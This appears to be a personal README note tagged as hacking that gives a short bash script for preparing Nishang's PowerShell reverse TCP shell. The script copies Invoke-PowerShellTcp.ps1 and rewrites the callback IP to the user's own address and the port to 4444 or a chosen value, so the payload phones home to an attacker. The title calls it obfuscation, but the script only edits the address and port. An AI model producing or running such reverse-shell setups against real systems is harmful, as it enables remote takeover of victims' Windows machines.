 # script to obfuscate a nishang reverse tcp shell for windows powershell

- concept of `script to obfuscate a nishang reverse tcp shell for windows powershell`
- must have nishang package installed
  - [x] add error handling

```bash
#!/bin/bash

ATTACKER=$(getmyip)
PORT=$1
if [ -z "$PORT" ]; then
  export PORT=4444
fi
cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
# take the line, move to end and remove "PS >"
ex -s -c 'g/Invoke.*Tcp -Rev.*192.168.254.226/m$' -c '$s/PS > //' -c wq nishang.ps1
# edit the IP
ex -s -c "\$s/192.168.254.226/$ATTACKER/" -c wq nishang.ps1
# edit the port
ex -s -c "\$s/4444/$PORT/" -c wq nishang.ps1
```

` zet/20230906044835/README.md `

# Related

- [20230906033727](/zet/20230906033727/README.md) commands to get ip
- [20230905212307](/zet/20230905212307/README.md) important things from old install scripts

Tags:

    #shortcmd #script #hacking
